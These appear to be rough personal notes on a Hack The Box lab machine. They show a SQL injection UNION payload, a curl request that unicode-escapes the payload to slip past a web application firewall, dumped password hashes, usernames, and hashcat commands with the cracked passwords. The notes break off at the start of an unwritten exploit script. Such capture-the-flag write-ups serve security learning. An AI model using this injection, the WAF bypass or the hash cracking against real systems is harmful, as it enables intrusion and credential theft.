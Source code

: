 zpowers@megacorp.htb
aldom@megacorp.htb
minato@megacorp.htb
egre55@megacorp.htb
-------------------------------------------------------
//////$end$
now i have to bypass waf 
using unicode escape 
# Usage - 
IMPORTANT-: IT's not a proper sql it's also dumb 
we have two ways 
1.-' UNION SELECT 1,2,3,username,password FROM Logins--
2. i just did order by 100 
#Command
curl -i -s -k -X $'POST'     -H $'Host: multimaster.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: application/json, text/plain, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://multimaster.htb/' -H $'Content-Type: application/json;charset=utf-8' -H $'Content-Length: 329' -H $'Connection: close'     --data-binary $'{\"name\":\"\\u002d\\u0027\\u0020\\u0055\\u004e\\u0049\\u004f\\u004e\\u0020\\u0053\\u0045\\u004c\\u0045\\u0043\\u0054\\u0020\\u0031\\u002c\\u0032\\u002c\\u0033\\u002c\\u0075\\u0073\\u0065\\u0072\\u006e\\u0061\\u006d\\u0065\\u002c\\u0070\\u0061\\u0073\\u0073\\u0077\\u006f\\u0072\\u0064\\u0020\\u0046\\u0052\\u004f\\u004d\\u0020\\u004c\\u006f\\u0067\\u0069\\u006e\\u0073\\u002d\\u002d\"}'     $'http://multimaster.htb/api/getColleagues' > response_from_curl_hashes_for_users.txt 

##
HASHES -:
<start>
1.9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
2.fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
3.68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
4.cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
these hashes are Keccak-384 i can decode using hashcat 
</end>
also some kinda usernames also we have in our curl response 
#Usernames from curl 
aldom
ckane 
egre55
james 
kpage 
nbourne 
rmartin
shayna 
zpowers  
###
Decoding hashes using hashcat-:
root@softwareuser:~/Desktop/multimaster# hashcat -m 17900 -D 1 -a 0 -n 10 hashes.txt /usr/share/wordlists/rockyou.txt --force 
root@softwareuser:~/Desktop/multimaster# hashcat -m 17900 hashes.txt --show
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
now i need a script({sid enumerating script}) to get sid 
#exploit 
#! /usr/bin/env python2
